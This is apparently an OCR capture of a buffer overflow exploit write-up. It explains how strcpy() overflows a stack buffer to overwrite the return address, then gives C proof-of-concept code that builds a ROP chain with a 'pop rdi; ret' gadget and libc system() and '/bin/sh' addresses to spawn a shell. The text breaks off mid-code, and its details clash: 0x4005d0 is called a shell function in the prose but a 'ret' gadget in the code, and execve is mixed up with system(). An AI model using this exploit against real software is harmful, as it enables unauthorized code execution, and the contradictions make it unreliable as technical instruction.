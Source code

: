 **Exploit Strategy:**

The goal of the exploit is to overwrite the return address to redirect the program's control flow to an attacker-controlled location. Here’s how the exploit works:

1. **Fill the Buffer:** The attacker provides a large string (e.g., filled with "A"s) that is longer than the buffer size, causing the `strcpy()` function to overflow the buffer.
   
2. **Overwrite the Return Address:** As the attacker continues to fill the buffer with data, they eventually overwrite the return address with the address `0x4005d0`, which points to the shell-spawning function.

3. **Redirect Control Flow:** Once the buffer overflows and the return address is overwritten, the program will return to the address specified (in this case, `0x4005d0`). This address should point to a function like `system("/bin/sh")`, which will execute a shell for the attacker.

By achieving this, the attacker is able to execute arbitrary code and gain control of the program, typically leading to remote code execution or other security compromises.

**Conclusion:**

The buffer overflow vulnerability in this program allows for the arbitrary overwriting of the return address on the stack. By exploiting this vulnerability, an attacker can redirect the program’s execution to arbitrary code, effectively gaining control of the system. The specific return address (`0x4005d0`) was identified as the target for redirection, leading to the execution of a malicious payload.

POC CODE IN C:

#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

#define OFFSET 40  
#define SYSTEM 0x4f440  // Address of system() in libc
#define BIN_SH 0x1b3e9a  // Address of the string "/bin/sh" in libc
#define POP_RDI_RET 0x4006f3  // Address of 'pop rdi; ret' gadget 
#define RET 0x4005d0  // Address of a 'ret' gadget 

// Function to perform the buffer overflow and spawn a shell
void exploit() {
    char buffer[128];  // Create a buffer to simulate the overflow

    // Step 1: Construct the payload. Start by filling the buffer with 'A's to reach the return address.
    memset(buffer, 'A', OFFSET);  // Filling the buffer with 'A' until we reach the return address
    printf("[ * ] Buffer filled with 'A's, length: %d\n", OFFSET);

    // Step 2: Overwrite the return address with the address of a 'pop rdi; ret' gadget.
    *((unsigned long*)(buffer + OFFSET)) = POP_RDI_RET;  // This gadget will let us control the first argument of execve()
    printf("[ * ] POP_RDI_RET address: 0x%lx\n", POP_RDI_RET);

    // Step 3: Overwrite the second address with the location of the string "/bin/sh" in libc (the argument for execve).
    *((unsigned long*)(buffer + OFFSET + 8)) = BIN_SH;  // "/bin/sh" is passed as the first argument to execve()
    printf("[ * ] BIN_SH address: 0x%lx\n", BIN_SH);
